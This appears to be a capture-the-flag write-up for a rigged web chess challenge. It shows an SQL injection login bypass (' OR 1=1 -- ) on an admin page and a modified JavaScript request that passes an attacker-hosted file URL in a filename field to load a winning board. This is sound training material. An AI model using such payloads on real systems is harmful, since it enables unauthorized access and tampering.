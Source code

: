 # Chess

## Description

This is a chess game that is rigged in favor of the computer. When you play, the CPU will generate more queens, making it impossible to win. Interestingly, the site has a "Master Login" button that leads to the url `/admin.php`.

To get the flag, you need to checkmate the computer.

-----

## Solution 1

This was the solution that I came up with on the first go-around. You can bypass the login page at `/admin.php` by using the SQLi payload `' OR 1=1 -- `. Once there, you'll see a page titled "Change config of the Chess AI!". 

To win, you need to select the "No" option for "AI Queen Cheats" and click the submit button. From there, I just played the computer in a normal game of chess and won.

-----

## Solution 2

A better solution is apparent when inspecting the source code of the chess game. You can see a definition for this `load_baseboard()` function:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```

To exploit this, you need to find a FEN file [(Fen Notation)](https://www.chess.com/terms/fen-chess) containing a winning position for white, and host it somewhere. Then, run a modified `load_baseboard()` function that looks like the following:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', '<URL_OF_YOUR_FEN_FILE>')

  xhr.open('POST', url, true)
  xhr.send(formData);
}
```

This has two changes:

1. We've replaced the "baseboard.fen" with our own FEN file containing the winning position
2. We've removed the last line that would refresh the page

These changes will cause the function to load a winning position and stay on the page, triggering a win for white.